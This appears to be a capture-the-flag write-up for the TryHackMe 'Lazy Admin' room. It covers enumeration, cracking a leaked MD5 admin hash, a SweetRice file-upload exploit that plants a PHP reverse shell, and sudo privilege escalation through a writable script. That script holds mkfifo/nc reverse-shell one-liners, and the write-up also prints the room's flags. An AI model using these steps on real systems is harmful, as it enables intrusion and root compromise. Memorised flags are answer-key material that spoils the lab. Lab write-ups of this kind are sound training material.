







# Lazy Admin (THM)

- https://tryhackme.com/room/lazyadmin
- March 3, 2023
- easy

---

## Enumeration

- Nmap Initial

1. 22/ssh syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
2. 80/http Apache httpd 2.4.18 ((Ubuntu))
   - apache2 ubuntu default page

- check http
- directory brute forcing

```sh
$ ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/common.txt -e php,txt -t 128 -c
```

- `content` found



- brute force `/content`

```sh
$ ffuf -u http://$IP/content/FUZZ -w /usr/share/wordlists/common.txt -e php,txt -t 128 -c
```

```
_themes
as
attachment
images
inc
index.php
js
```

- /content/\_themes/default



- /content/as/



- /content/inc/



- sql backup file



- download mysql backup file
- it is a php script for sql database
- interesting lines

```
  14 => 'INSERT INTO `%--%_options` VALUES(
    \'1\',
    \'global_setting\',
    \'a:17:{
        s:4:\\"name\\";
        s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";
        s:10:\\"Lazy Admin\\";
        s:5:\\"title\\";
        s:0:\\"\\";
        s:8:\\"keywords\\";
        s:8:\\"Keywords\\";
        s:11:\\"description\\";
        s:11:\\"Description\\";
        s:5:\\"admin\\";
        s:7:\\"manager\\";
        s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";
  ...
  s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```

- crack the password may be md5
- passwd -> 42f749ade7f9e195bf475f37a44cafcb:Password123:MD5PLAIN

- enter the `/content/as/` -> with `manager:Password123`

- from searchsploit found `arbitary file upload` for `sweetrice 1.5`
- `searchsploit -m php/webapps/40716.py`
- in that python file, we can upload reverse shell files via `r.post('http://' + host + '/as/?type=media_center&mode=upload', files=file)`



- if file extension is php, there is no upload file in `/content/attachment/`
- change file extension to .phtml, uploaded file can be found at `http://$IP/content/attachment/`

- Listen at your machine with nc

```sh
nc -vnlp 4242
```

- curl request to uploaded file

```sh
curl http://$IP/content/attachment/php_shell.phtml
```

- shell with `www-data` user access will get
- inside shell,

```sh
www-data@THM-Chal:/$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

www-data@THM-Chal:/$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");

www-data@THM-Chal:/$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f

www-data@THM-Chal:/$ ls -la /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

1. www-data can run `sudo /usr/bin/perl /home/itguy/backup.pl` with no password
2. backup.pl run `sh /etc/copy.sh`
3. `/etc/copy.sh` has write access to anyone

- so, change the IP:PORT copy.sh file to our local machine IP:PORT that will listen with nc

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4444 >/tmp/f
```



- for flag,

```sh
$ cat /home/itguy/user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}

$ cat /root/root.txt
THM{6637f41d0177b6f37cb20d775124699f}

```

- run linpeas to read the linpeas output later to be familiar with it.
